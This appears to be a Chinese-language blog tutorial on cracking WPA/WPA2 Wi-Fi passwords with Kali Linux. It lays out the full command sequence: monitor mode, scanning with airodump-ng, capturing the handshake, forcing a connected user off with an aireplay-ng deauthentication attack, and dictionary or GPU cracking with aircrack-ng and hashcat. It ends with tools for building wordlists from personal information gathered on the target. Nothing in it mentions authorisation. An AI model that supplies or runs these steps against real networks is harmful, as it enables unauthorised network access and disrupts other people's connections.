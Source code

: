 ```yaml
---
title: kali下破解wifi密码
date: 2019-03-07 13:36:04
tags: 
    - kali
    - wifi
categories:
    - 实践运用
    - kali
---
```


## 环境准备
1. kali linux
2. 支持监控模式的网卡，免安装的最好
3. 字典文件(kali自带字典放在/user/share/wordlists/rockyou.txt.gz)

## 排查影响环境
1. 断开所有网络功能
```bash
service network-manager stop
```
2. 关闭airmon
```bash
airmon-ng check kill
```
<!--more-->

##  开启网卡监控模式
```bash
iwconfig ##查看本地网卡状态
airmon-ng start wlan0
```

## 开始监听周边wifi
```bash
airodump-ng wlan0mon
```
>上面列出了周围的wifi和它们的详细信息，包括信号强度、加密类型、信道CH等。要记住要破解wifi的频道号和BSSID。按Ctrl-C结束

## 抓取wifi握手包
```bash
airodump-ng wlan0mon --bssid <lymac> -c 5<信道CH> -w wpa2
```
>__参数解释__：
    * -c指定频道号
    * –bssid指定路由器bssid
    * -w指定抓取的数据包保存位置及保存名字

## 攻击连接用户重连
有一个叫aireplay-ng的工具，它可以强制用户断开wifi连接；原理是，给连接到wifi的一个设备发送一个deauth（反认证）包，让那个设备断开wifi，随后它自然会再次连接wifi,新开一个bash输入以下命令，在出现__wpa handshake__表示抓取握手包成功！
```bash
aireplay-ng -0 2 -a <lymac> -c <yhmac> wlan0mon
```
>__参数解释__：
    * -0表示发起deauthentication攻击
    * -a指定无线路由器BSSID
    * -c指定强制断开的设备

## 关闭监控模式
```bash
airmon-ng stop wlan0mon
```

## 开始破解密码
```bash
aircrack-ng -a2 -b <target_mac> -w /usr/share/wordlists/rockyou.txt ~/*.cap
或者简写
aircrack-ng *.cap -w <zd.txt>
```
>__参数解释__：
    * -a2代表WPA的握手包
    * -b指定要破解的wifi BSSID
    * -w指定字典文件

## 补充
1. 如果有GPU设备请用hashcat
```bash
aircrack-ng file.cap -J out.hccap #在破解cap文件之前，要把它转换为hccap文件
hashcat -m 2500 out.hccap 字典文件 #使用GPU破解hash
```
2. 如果前期搜集了信息，可以针对性生成社工字典，详情了解如下内容:
- [Crunch](https://bbkali.github.io/2019/03/07/%E7%94%9F%E6%88%90%E5%AD%97%E5%85%B8%E7%A5%9E%E5%99%A8Crunch/)
- [cupp](https://github.com/Saferman/cupper.git)
- Cewl

